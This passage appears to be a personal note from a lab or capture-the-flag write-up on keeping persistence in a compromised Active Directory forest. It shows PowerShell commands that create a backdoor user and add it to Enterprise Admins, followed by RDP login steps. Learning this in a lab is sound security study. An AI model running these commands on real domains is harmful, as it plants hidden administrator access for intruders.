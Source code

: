 In order to maintain persistence, and allowing us to login without creating tickets, we can create a new user and add it to **Enterprise Admins** group, using the following PowerShell code:

## Connect to CORPDC with Administration credentials

[[Connect to CORP.DC with Administration credentials]]

## Adding a new user as an Enterprise Admin

PS C:\Users\Administrator>`$pwd = convertTo-SecureString "Capstone1@" -AsPlainText -Force`

PS C:\Users\Administrator>`New-ADUser -Name "kairosroot" -AccountPassword $pwd `

PS C:\Users\Administrator>`$User = Get-ADUser -Identity "kairosroot"  -Server "corpdc.corp.thereserve.loc"`

PS C:\Users\Administrator>`$Group = Get-ADGroup -Identity "Enterprise Admins" -Server "rootdc.thereserve.loc"`

PS C:\Users\Administrator>`Add-ADGroupMember -Identity $Group -Members $User -Server "rootdc.thereserve.loc"`

![[Maintain persistence-20240613153305218.webp]]

## Check out the user and group

<span style="background:#d4b106">CHANGE IMAGES</span>

PS C:\Users\Administrator> `echo $user`

![[Maintain persistence-20240613153842909.webp]]

PS C:\Users\Administrator> `echo $group`

![[Maintain persistence-20240613153950655.webp]]


## RDP to ROOTDC

With our new created user, we can just login in the ROOTDC as an Enterprise Admin.

### Connecting from a Client Machine

1. **Open Remote Desktop Connection**:
    
    - Press `Win + R`, type `mstsc`, and press `Enter`.
    - ![[Maintain persistence-20240615154522456.webp]]
1. **Enter the Host Machine’s Name or IP Address**:
    
    - In the Remote Desktop Connection window, enter the computer name or IP address of the host machine.
3. **Enter Credentials**:
    
    - When prompted, enter the username and password for the account on the host machine.
4. **Optional: Save Connection Settings**:
    
    - You can save the connection settings to an RDP file by clicking on **Show Options** > **Save As**.
5. **Connect**:
    
    - Click **Connect** to start the remote session.

